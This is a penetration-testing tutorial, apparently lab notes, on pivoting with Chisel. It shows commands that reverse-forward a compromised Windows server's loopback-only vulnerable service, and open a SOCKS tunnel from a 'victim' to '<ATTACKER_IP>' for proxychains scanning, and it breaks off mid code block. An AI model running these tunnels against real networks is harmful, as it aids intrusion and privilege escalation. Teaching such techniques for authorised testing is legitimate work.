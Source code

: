 ### SCENARIO II (no SSH )
You had managed to pivot through a compromised host (**`123.123.123.2`**) and **gained a low privileged user** **`CRIMSON\bofer`** on the **Windows Server** (**`123.123.123.3`**). During the investigation of the newly compromised host, you found that you can leverage the [buffer overflow vulnerability](https://karol-mazurek95.medium.com/space-challenge-pwn-htb-4bc70c503537) that lies in the **`printer.exe`**(service running on **`127.0.0.1:4444`**) for **privilege escalation** to **`NT AUTHORITY\SYSTEM`** **.** You downloaded the vulnerable **`printer.exe`** to your machine, develop an exploit, and wonder how to send it from your **host** (**`10.10.10.1`**) to the **Windows Server** (**`123.123.123.3`**) service **`printer.exe`** running on the [loopback interface](https://www.juniper.net/documentation/en_US/junos/topics/concept/interface-security-loopback-understanding.html#:~:text=The%20loopback%20interface%20is%20used,the%20loopback%20address%20never%20changes.) (**`127.0.0.1:4444`**)?


![hot potato](https://miro.medium.com/v2/resize:fit:700/1*Eb2avuP0sLLn6NM6JLxBTw.png)

> solution is use ==previously established SSH tunnel  with ProxyChains== (==10.10.10.2==) +  using ***local  loopback port forwarding*** (~~**proxychains ssh -L 1234:127.0.0.1:4444 bofer@123.123.123.3**~~) but we don't have ssh and we can't run it so we will use another tool called ***Chisel*** 
### chisel

***Local loopback Port Forwarding***

```bash
### ON YOUR HOST (10.10.10.1)
# START CHISEL SERVER ON PORT 8000
proxychains chisel server -p 8000 --reverse
# START NETCAT LISTENER ON PORT 4000
nc -nlvp 4000
### ON A COMPROMISED MACHINE (123.123.123.3) 
# START CHISEL CLIENT 
# chisel client <server-ip>:9000 R:<local-port>:<target-ip>:<target-port>
chisel.exe client 10.10.10.1:8000 R:4000:127.0.0.1:4444

``` 

![pic](https://miro.medium.com/v2/resize:fit:700/1*jlorgqQE_tR24qYKmOiJdQ.png)
>Now, if you want to exploit buffer overflow on the vulnerable service available only on **`127.0.0.1:4444`** for the **`123.123.123.3`** from your machine (**10.10.10.1**), you have to run a developed exploit against `10.10.10.1:4000` on your host.

![exploit](https://miro.medium.com/v2/resize:fit:700/1*x_-gMsWfPyR-yGeznyzIEw.png)


other usage:
```bash
# --- SOCKS Proxy for Pivoting

# On Attacker:
chisel server --reverse --port 8000 --socks5
# On Victim:
# chisel client <server-ip>:9000 R:<local-port>:<target-ip>:<target-port>
chisel client <ATTACKER_IP>:8000 R:socks
# Use with proxychains:
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
proxychains nmap -sT -Pn <TARGET_IP>
 

# Port Forwarding

# --- Reverse Port Forwarding (RDP Example)
# Forward Victim:3389 to Attacker:1234 (RDP)
# On Attacker:
chisel server --reverse --port 8000
# On Victim:
```